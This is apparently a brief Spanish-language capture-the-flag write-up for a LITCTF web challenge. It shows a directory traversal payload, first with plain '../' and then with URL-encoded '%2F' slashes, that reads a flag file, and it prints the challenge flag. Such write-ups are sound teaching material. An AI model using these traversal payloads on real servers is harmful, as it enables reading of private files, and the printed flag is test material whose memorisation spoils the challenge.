 Siguiendo el título del CTF, y haciendo pruebas sobre el URL de la aplicación, encontramos que la flag se encontraba en la siguiente URL:
- http://litctf.org/../../app/flag.txt

Las barras tuvimos que modificarlas a "%2F" para que el directory traversal funcione correctamente, quedando de la siguiente manera:
- http://litctf.org/..%2F..%2Fapp%2Fflag.txt

FLAG: **LITCTF{backtr@ked_230fim0}**